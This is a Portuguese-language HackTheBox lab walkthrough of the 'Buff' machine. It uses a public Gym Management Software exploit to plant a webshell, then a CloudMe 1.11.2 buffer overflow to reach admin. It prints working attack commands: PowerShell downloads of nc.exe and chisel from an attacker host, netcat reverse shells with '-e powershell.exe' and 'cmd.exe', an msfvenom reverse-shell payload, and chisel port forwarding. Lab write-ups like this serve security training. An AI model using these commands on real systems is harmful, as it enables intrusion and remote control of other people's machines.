 
<html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>
Back to all write-ups: [here](https://repo4chu.github.io/hackthebox/)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Buff - HackTheBox - WriteUp
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![Image](https://i.imgur.com/R54hsZz.png)

**Tools** utilizadas
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap
Python
Powershell
Netcat
msfvenom
chisel
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Vamos iniciar fazendo um scan com o Nmap procurando portas e serviços ativos:

Ao acessar o serviço Web, podemos encontrar a versão do CMS utilizado no site:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
http://10.10.10.198:8080/contact.php
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![Image](https://i.imgur.com/DiDlRxp.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Gym Management Software 1.0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Após encontrarmos a versão do CMS, podemos buscar por falhas já conhecidas sobre ele.

No site [Exploit-DB](https://www.exploit-db.com/) encontramos alguns exploits e um deles nos parece muito interessante;
![Image](https://i.imgur.com/lsXr8UN.png)

O [exploit](https://www.exploit-db.com/exploits/48506), consegue executar comandos de forma remota e sem autenticação!

Bom, vamos testa-lo!

![Image](https://i.imgur.com/APlOWvl.png)

Podemos ver que o exploit funcionou e realizou o upload de uma webshell. XD

Nossa webshell foi inserida no caminho:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
http://10.10.10.198:8080/upload/kamehameha.php
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Se quisermos utilizar o navegador para realizar comandos utilizamos o parametro 'telepathy' para passar nossos comandos:
Ex:

![Image](https://i.imgur.com/sfh8O6T.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
http://10.10.10.198:8080/upload/kamehameha.php?telepathy=whoami
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Vamos usar a shell em nosso terminal. Após conseguirmos executar comandos, vamos tentar realizar a conexão reversa.
Subiremos um servidor com python em nossa máquina para enviarmos o netcat para nosso alvo:

![Image](https://i.imgur.com/A76DKtv.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
python -m SimpleHTTPServer 80
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Vamos tentar jogar o netcat dentro da máquina alvo, através de nossa shell inicial.

Vamos usar o PowerShell para isso
![Image](https://i.imgur.com/o8Mxo8K.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
powershell Invoke-WebRequest -Uri 'http://10.10.14.146/nc.exe'-OutFile 'C:\xampp\htdocs\gym\upload\nc.exe'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Após realizarmos o upload, vamos fazer a conexão com nossa máquina através do netcat.
![Image](https://i.imgur.com/eAPcQcR.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.\nc.exe 10.10.14.146 433 -e powershell.exe
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Em nossa máquina, abrimos a porta 443 para o netcat se conectar:

![Image](https://i.imgur.com/21enBIH.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc -vnlp 443
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Ao ganhar o acesso inicial e realizarmos a enumeração do que está rodando na máquina, podemos encontrar um software chamado CloudMe 1.11.2

![Image](https://i.imgur.com/AJwypaK.png)

Vamos fazer como fizemos no outro software, vamos buscar por falhas conhecidas:
![Image](https://i.imgur.com/c3I6v0R.png)


Ao pesquisar mais a fundo sobre esse software, é possível encontrar um [exploit](https://www.exploit-db.com/exploits/48389) que utiliza Buffer Overflow na versão 1.11.2 para escalção de privilégios.

Ao analisar o CloudMe, podemos ver que ele está rodando somente local...
Nosso alvo não possuí python para conseguirmos executar o exploit...
Vamos tentar um portforward para executar o exploit.
Na primeira vez que fiz essa box, usei o plink.exe, porém, quando fui refazer para tirar as prints, tentei durante horas e não funcionou...

Para isso vamos tentar utilizar o chisel.exe para isso:

Vamos envia-lo para a máquina:
![Image](https://i.imgur.com/LTIYDYM.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
powershell Invoke-WebRequest -Uri 'http://10.10.14.145/windao.exe'-OutFile 'C:\xampp\htdocs\gym\upload\windao.exe'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

_Salvei com esse nome pra evitar outras pessoas usando o mesmo arquivo(RIP vip)_
![Image](https://i.imgur.com/LoeaAmJ.png)


Vamos editar o payload do exploit para conectar-se a nossa máquina:
Usando o msfvenom criamos um payload:

![Image](https://i.imgur.com/fabuhuw.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
msfvenom -p windows/exec CMD='c:\xampp\htdocs\gym\upload\nc.exe 10.10.14.145 4444 -e cmd.exe' -b '\x00\x0A\x0D' -f python -v payload
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Após isso inserimos ele dentro de nosso exploit(48389.py).

![Image](https://i.imgur.com/mRyjpnO.png)

Ativando o Chisel como server:

![Image](https://i.imgur.com/a37b5Y2.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
./chisel server --reverse --port 10001
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Usando o Chisel como client:

![Image](https://i.imgur.com/LuzPSpK.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.\chisel.exe client 10.10.14.145:10001 R:3306:localhost:3306 R:8888:localhost:8888
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Após a conexão ser concluida no Chisel, podemos executar o exploit já editado com o nosso payload, que realiza uma conexão na porta 4444, portanto, abrimos a porta com o netcat e aguardamos a conexão. Obs: tive que executar o exploit mais de uma vez para receber a conexão.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nc -vvnlp 4444
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
agora somos admin/root XD

![Image](https://i.imgur.com/ynbFR0B.png)


if i helped you, add + respect at my profile :D
<html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>


My references:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://github.com/jpillora/chisel
https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html
https://ippsec.rocks/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
